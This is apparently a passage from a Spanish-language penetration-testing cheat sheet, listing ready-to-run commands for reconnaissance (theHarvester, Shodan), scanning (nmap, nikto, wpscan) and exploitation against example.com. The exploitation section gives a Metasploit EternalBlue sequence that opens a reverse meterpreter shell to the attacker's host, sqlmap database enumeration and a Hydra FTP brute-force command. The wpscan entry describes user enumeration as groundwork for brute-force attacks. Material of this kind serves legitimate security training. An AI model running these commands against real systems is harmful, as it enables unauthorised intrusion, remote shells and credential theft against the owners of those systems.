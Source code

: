 #### Ejemplo 2: theHarvester
- **Comando**: `theharvester -d example.com -b google`
- **Resultado**: Recopilará correos electrónicos, subdominios y otros datos públicos de `example.com` usando Google como fuente.

#### Ejemplo 3: Shodan
- **Comando**: `shodan search "apache port:80"`
- **Resultado**: Encontrarás servidores web Apache expuestos en el puerto 80, con información detallada de IP, ubicación, y servicios expuestos.

### 2. **Escaneo (Scanning)**

**Objetivo**: Identificar y analizar puertos abiertos, servicios en ejecución, y posibles vulnerabilidades.

#### Ejemplo 1: Nmap
- **Comando**: `nmap -sS -sV -O example.com`
- **Resultado**: Realizará un escaneo SYN para descubrir puertos abiertos, identificará las versiones de los servicios y tratará de determinar el sistema operativo del objetivo.

#### Ejemplo 2: Nikto
- **Comando**: `nikto -h http://example.com`
- **Resultado**: Escaneará `example.com` en busca de vulnerabilidades conocidas en el servidor web.

#### Ejemplo 3: Wpscan
- **Comando**: `wpscan --url http://example.com --enumerate u`
- **Resultado**: Enumerará los usuarios de WordPress en `example.com`, útil para ataques de fuerza bruta posteriores.

### 3. **Explotación (Exploitation)**

**Objetivo**: Comprometer el sistema objetivo explotando vulnerabilidades descubiertas.

#### Ejemplo 1: Metasploit Framework
- **Comando**:
  ```bash
  msfconsole
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOSTS example.com
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST your_ip
  exploit
  ```
- **Resultado**: Si `example.com` es vulnerable a `EternalBlue`, abrirá una sesión Meterpreter en el sistema comprometido.

#### Ejemplo 2: SQLmap
- **Comando**: `sqlmap -u "http://example.com/index.php?id=1" --dbs`
- **Resultado**: Detectará y explotará una vulnerabilidad SQL Injection en `example.com`, listando las bases de datos disponibles.

#### Ejemplo 3: Hydra
- **Comando**: `hydra -l admin -P /path/to/passwords.txt ftp://example.com`
- **Resultado**: Intentará una fuerza bruta de la cuenta `admin` en un servidor FTP de `example.com` usando la lista de contraseñas proporcionada.
